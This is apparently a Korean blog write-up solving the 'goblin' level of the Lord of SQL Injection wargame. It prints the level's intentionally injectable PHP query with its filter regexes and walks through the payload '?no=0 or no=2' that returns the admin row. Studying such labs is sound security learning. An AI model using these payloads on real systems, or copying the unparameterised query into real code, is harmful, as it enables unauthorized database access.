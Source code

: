 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - goblin 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `goblin` 문제이다.  

이번에는 `password column` 대신에 `no column`이 생겼다.  

<!--more-->

코드는 다음과 같다.  

```php
--------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=
--------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`no column`이 새로 생겼으며, `id`가 `guest`로 고정되어 있다.  

또한 이번에는 `'(싱글쿼터)`를 입력할 수 없다.  

하지만 문제를 풀기 위해서는 `id`가 `admin`인 행을 추출해야 한다.  

`where` 절에서 `id='guest'`와 `no=??`의 두 조건은 `and`로 연결되어 있다.  

따라서 이를 이용 해 문제를 풀 수 있을 것 같다.  

데이터베이스에 아래와 같이 저장되어 있다고 가정 해 보자.  

| no  | id |
| :------------ | :-----------: |
| 0 | guest |
| 1 | admin |

이 경우, 만약 `no` 자리에 `0`이 있다면 결과적으로 `where id='guest' and no={$_GET[no]}`의 where 절은 참이 되므로 첫 번째 행이 추출 될 것이다.  

하지만 만약 `no`자리에 `0이 아닌 값`이 들어간다면 결과적으로 조건절은 `거짓`이 되어 아무런 결과 값을 가져오지 않는다.  

이 때, 만약 뒤에 아래와 같이 `or`로 묶인 조건이 추가적으로 있을 경우 뒤의 조건문을 실행하게 된다.  

```
where id='guest' and no=1 or no=1
```

위의 where 절에서 `id='guest'`이고 `no=1`인 행이 없으므로, `and`로 묶여 있는 조건은 `거짓`이 된다.  

때문에 `or`뒤의 조건을 실행하게 되어 `no=1`인 행을 추출하게 된다.  

따라서 기존에 있던 조건 뒤에 추가적으로 조건을 삽입할 수 있다면 `id`가 `guest가 아닌` 행을 추출할 수 있다.  

먼저 문제를 풀기 위해 `guest`의 `no`가 무엇인지 확인하기 위해 `no`에 `0`, `1`을 입력 해 보았다.  

```php
---------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=1
---------------------------------------------------------------------------------

Hello guest
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

그 결과 `no`가 `1`일 때 `Hello guest`가 출력되는 것을 확인할 수 있다.  

따라서 `guest`의 `no`는 `1`임을 알 수 있으며 추측할 수 있는 데이터베이스의 데이터는 다음과 같다.  

| no  | id |
| :------------ | :-----------: |
| 1 | guest |
| 1이 아닌 값 | admin |

즉, `id`가 `admin`인 행의 `no`는 `1이 아닌 값`으로 되어 있을 것이다.  

위에서 설명했다시피 다음과 같이 입력 해 `and`로 묶인 조건을 거짓으로 만드는 쿼리를 구성하면 `id가 guest가 아닌 행`을 추출할 수 있다.  

```
?no=0 or no=0
```

따라서 `id`가 `admin`인 행을 추출하기 위해 `or` 뒤의 `no` 자리에 `1`이 아닌 값을 차례로 입력 해 보면 언젠가는 내가 원하는 행을 추출할 수 있을 것이다.  

`0`부터 입력해 본 결과, `no`가 `2`일 때 문제를 풀 수 있었다.  

```php
---------------------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=0 or no=2
---------------------------------------------------------------------------------------------

Hello admin
GOBLIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`GOBLIN Clear!!`
